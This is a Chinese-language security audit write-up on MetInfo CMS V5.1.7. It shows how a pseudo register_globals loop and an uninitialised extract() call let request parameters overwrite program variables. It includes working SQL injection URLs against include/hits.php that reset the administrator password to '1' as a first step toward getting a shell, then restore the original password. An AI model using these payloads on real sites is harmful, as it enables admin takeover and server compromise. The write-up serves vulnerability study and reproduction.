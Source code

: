 # metinfo多个漏洞

## Affected Version 

__版本：MetInfo V5.1.7  2013年5月23__    


__[metinfo多个漏洞(可getshell)  ](http://wooyun.jozxing.cc/static/bugs/wooyun-2013-043795.html)__


审计一般先看核心文件。

`\include\common.inc.php` 中的21-28行

	define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
	isset($_REQUEST['GLOBALS']) && exit('Access Error');
	require_once ROOTPATH.'include/global.func.php';
	foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
		foreach($$_request as $_key => $_value) {
			$_key{0} != '_' && $$_key = daddslashes($_value);
		}
	}


大概从21行程序开始使用了伪`register_globals`机制。


2： 变量未初始化及extract函数使用不当。

在`common.inc.php`文件随后的代码里包含了一个`config.inc.php`的文件, 看名字就知道是一些初始化变量配置, 程序员将应用程序所需变量

放在了`register_globals`机制之后声明估计就是怕变量被覆盖.但是`config.inc.php`的一个数组`$settings`却忘记了初始化.



	/*读配置数据*/
	$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";
	$result = $db->query($query);
	while($list_config= $db->fetch_array($result)){
		if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));
		$settings_arr[]=$list_config;
		if($list_config['columnid']){
			$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];
		}else{
			$settings[$list_config['name']]=$list_config['value'];
		}
		if($list_config['flashid']){
			$list_config['value']=explode('|',$list_config['value']);
			$falshval['type']=$list_config['value'][0];
			$falshval['x']=$list_config['value'][1];
			$falshval['y']=$list_config['value'][2];
			$falshval['imgtype']=$list_config['value'][3];
			$met_flasharray[$list_config['flashid']]=$falshval;
		}
	}
	@extract($settings);

>在没有初始化的情况下又使用了extract($settings),结合前面的register_globals机制这样就导致多个变量可以被覆盖掉从而控制整个程序逻辑.


3:sql注入绕过

	前面的防注入函数里可以看到替换了一些常用的关键字，使注入的难度增加了，但那仅仅只对sql语句的where之后注入有所防范。
	
	对于可以覆盖系统变量的咋们来讲就不太管用了而且无视GPC，sql注释符也没有过滤。
	
	为了降低攻击成本我挑了一处最容易实现攻击地方，一个update的sql语句。
	
	在 include\hits.php的25行左右。
	
	$query = "update $met_hits SET hits='$hits_list[hits]' where id='$id'";
	
	覆盖掉$met_hits变量就可以update任何数据表，如修改管理员密码。
	
	hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23
	
	使用密码1登陆后台拿shell，再把管理员密码改回来。
	
	hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_pass=admin_introduction+WHERE+id=1%23



修改密码

	http://192.168.86.194:9000/MetInfo517/include/hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23


将密码修改为 1






## References

[metinfo多个漏洞(可getshell) --wooyun-2013-043795 ](http://wooyun.jozxing.cc/static/bugs/wooyun-2013-043795.html)

[What is register_globals and why is it a security risk?](https://tournasdimitrios1.wordpress.com/2010/11/09/what-is-register_globals-and-why-is-it-a-security-risk/)

[register_globals](https://www.mediawiki.org/wiki/Register_globals)

[PHP Backdoors: Hidden With Clever Use of Extract Function](https://blog.sucuri.net/2014/02/php-backdoors-hidden-with-clever-use-of-extract-function.html)

[PHP extract() Vulnerability](https://davidnoren.com/post/php-extract-vulnerability.html)

